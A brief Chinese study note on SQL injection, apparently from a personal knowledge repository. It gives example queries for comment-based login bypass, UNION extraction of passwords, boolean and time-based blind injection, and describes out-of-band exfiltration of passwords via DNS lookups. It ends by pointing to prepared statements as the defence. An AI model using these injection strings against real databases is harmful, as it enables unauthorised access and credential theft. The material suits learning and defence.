 # SQL注入

[bilibili:SQL注入攻击原理，方法和类型](https://www.bilibili.com/video/BV1ZR4y1Y745)

## 报错与注释
将用户名带个单引号，注释号等
```SQL
SELECT * FROM allusers
WHERE username='eggpain' OR 1=1 --' AND password='mima'
```

## UNION
```SQL
SELECT * FROM products
WHERE name='egg'
UNION SELECT NULL, username, password FROM allusers
--'
```

## 盲注
### 布尔
```sql
SELECT cookieId FROM allusers
WHERE cookieId='1jiAn3lIan'
AND SUBSTRING((SELECT password FROM users WHERW user='admin'), 1, 1)='m'
--'
```

### 时间延迟
`sleep(10)`
因为可能界面不返回查询结果，但是我们可以用时间延迟的方式确认是否查询正确等。

## 外通道
比如向MySQL系统`LOAD_FILE()`函数，提供域名出发DNS查询，即查询ip地址。

把要查询的密码和域名拼接，可以直接发给黑客的服务器。


## 防止
[## Prepared statement](../../数据库/SQL/SQLKnowledgeAccumulation.md)